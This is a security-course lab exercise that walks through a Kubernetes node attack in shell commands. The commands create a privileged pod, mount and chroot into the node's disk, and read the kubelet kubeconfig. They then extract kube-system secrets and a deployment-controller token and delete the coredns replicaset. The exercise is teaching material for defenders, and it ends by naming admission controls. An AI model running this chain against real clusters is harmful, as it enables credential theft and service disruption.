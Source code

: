 ```yaml
---
layout: exercise
exercise: 95
title: "Exercise: Kubernetes Node Attacks"
tools: openssh-client kubectl jq curl
directories_to_sync: ssh-config K8S-Exercise
---
```


## Steps

1. Start a new bash shell

    ```shell
    bash
    ```

1. (*NOTE: You'll only need to do this step if you skipped the [Kubernetes Cloud Attacks](/exercises/cloud-attacks/) exercise*).

    The course proctors will provide you with a cloud cluster ID number (`N`). Store this number in your shell profile in a new variable `CLOUD_ID`, and then read this new variable into your environment now:

    ```shell
    # Replace the "N" in `CLOUD_ID=N` with the ID number provided by the proctors
    echo "export CLOUD_ID=N" >> ~/.bashrc
    source ~/.bashrc
    ```

2. We'll be using the same cloud cluster as in [Kubernetes Cloud Attacks](/exercises/cloud-attacks/), so let's set an `alias`:

    ```shell
    unalias kubectl
    alias kubectl="/root/K8S-Exercise/kubectl \
    --server=$(cat /sync/.cloud_clusters/serverip-$CLOUD_ID ) \
    --token=$(cat /sync/.cloud_clusters/token-cluster-$CLOUD_ID ) \
    --certificate-authority=/sync/.cloud_clusters/ca.crt-$CLOUD_ID"
    ```

3. And test that it works:

    ```shell
    kubectl get pods
    ```

4. Let's launch a privileged pod. Let's ask kubectl to create a manifest for us:

    ```shell
    kubectl run priv --image=bustakube/alpine-small-attack \
      --dry-run=client -o yaml
    ```

5. This outputs the `YAML` for a pod named `priv`, using the image `bustakube/alpine-small-attack` from Docker Hub.  Let's add a field to it, by telling `kubectl` to use JSON output instead, then using `jq` to set a value:

    ```shell
    kubectl run privpod --image=bustakube/alpine-small-attack \
      --dry-run=client -o json \
      | jq '.spec.containers[0].securityContext.privileged=true'
    ```

6. OK, now let's write that to a file:

    ```shell
    kubectl run privpod --image=bustakube/alpine-small-attack \
      --dry-run=client -o json \
     | jq '.spec.containers[0].securityContext.privileged=true' \
      >pod-priv.json
    ```

7. And now let's create the pod with the file:

    ```shell
    kubectl create -f pod-priv.json
    ```

8. Wait for the pod to be ready:

    ```shell
    kubectl wait --for=condition=ready pod/privpod
    ```

9. Exec into your new pod:

    ```shell
    kubectl exec -it privpod -- /bin/bash
    ```

10. This pod is privileged, so it has access to a full set of devices:

    ```shell
    ls /dev
    ```

11. Let's mount the node's root drive - we have skipped trying other partitions and gone straight to the one that applies here:

    ```shell
    mount /dev/sda1 /mnt
    ```

12. Let's copy `kubectl` from our pod into the node's filesystem:

    ```shell
    cp /usr/bin/kubectl /mnt/usr/bin/kubectl
    ```

13. Now `chroot` to the node's filesystem:

    ```shell
    chroot /mnt /bin/bash
    ```

14. You may have received an error message about how the shell (via groups) cannot look up the group ID 11.  That's ok.  It's a normal byproduct of chrooting.  Now that we have access to the host filesystem, let's take a look at the kubelet's directory:

    ```shell
    ls /var/lib/kubelet
    ```

15. There's a `kubeconfig` file, which we can plug right into our `kubectl` command!

    ```shell
    cat /var/lib/kubelet/kubeconfig
    ```

    (On newer versions of Kubernetes, we'll find this file in `/etc/kubernetes/kubelet.conf```)

16. Now let's use it:

    ```shell
    
    
    kubectl --kubeconfig=/var/lib/kubelet/kubeconfig -n kube-system get secrets
    ```

17. To shorten the `kubectl` lines here, let's set an alias:

    ```shell
    alias kubectl="kubectl --kubeconfig=/var/lib/kubelet/kubeconfig"
    ```
    
18. We're listing the secrets from the kube-system namespace, which contains the primary control plane elements for the cluster. Prove to yourself that we can see the contents of secrets:

    ```shell
    kubectl -n kube-system get secrets -o yaml
    ```

19. Now, let's get a significantly-privileged secret's JWT (JSON web token) - first get the token name for the deployment controller:

    ```shell
    secretname=$(kubectl get secrets -n kube-system | \
      awk '{print $1}' | grep deployment-controller)
    ```

    Get the secret:

    ```shell
    kubectl -n kube-system get secret $secretname -o yaml
    ```


20. Store the token in a variable called `secret`:

    ```shell
    secret=$(kubectl -n kube-system get secret $secretname -o yaml  \
    | grep token: | awk '{print $2}' | base64 -d )
    ```

21. To use this token instead of the `kubeconfig` file, we'll need to get an API server IP address and certificate authority file. Start by getting the IP address from your environment variables:

    ```shell
    env | grep KUBERNETES_PORT_443_TCP=
    ```

22. Store that IP address in a variable:

    ```shell
    ip=$(env | grep KUBERNETES_PORT_443_TCP= | awk -F\/ '{print $3}')
    ```

23. Now let's parse the certificate authority's cert out to `/ca.crt`:

    ```shell
    cat /var/lib/kubelet/kubeconfig  |grep  certificate-authority-data | \
      awk '{print $2}' | base64 -d >/ca.crt
    ```

24. Now let's use the token and just run `get pods` to keep things simple and check if it's all working:

    ```shell
    alias kubectl="kubectl --token=$secret --server=https://$ip \
      --certificate-authority=/ca.crt"

    kubectl -n kube-system get pods
    ```

25. We are working with the JWT for the deployment-controller, which manages all pods launched via deployment. Use the token to list deployments:

    ```shell
    kubectl -n kube-system get deployments
    ```

26. If you want to prove to yourself that you really have some serious privilege, let's damage the cluster. Let's see what we are allowed to do:

    ```shell
    kubectl -n kube-system auth can-i --list
    ```

27. Every deployment creates replicasets. We can delete create and delete replicasets in the `kube-system` namespace and, for that matter, in any namespace.  We could delete the replicaset behind `kube-dns`.  Let's get its name:

    ```shell
    kubectl -n kube-system get replicasets
    ```

28. Let's parse that name into a variable:

    ```shell
    rs=$( kubectl -n kube-system get replicasets | awk '{print $1}' | \
      egrep 'coredns-\w+$' )
    ```

29. Now, let's delete that `replicaset` and immediately after get a list of pods:

    ```shell
    kubectl -n kube-system delete replicaset $rs
    kubectl -n kube-system get pods | grep coredns
    ```

30. We see that some pods are terminating, while others are creating to replace them.  This is good - the deployment controller is recreating the destroyed replica set.

31. This attack started with a pod that had a privileged container in it. Our goal in defending will be to prevent anyone from creating privileged containers. We can do this with Pod Security Policies/Standards, but also with third party admission controllers like Open Policy Agent (OPA) Gatekeeper, K-Rail, and Kyverno.
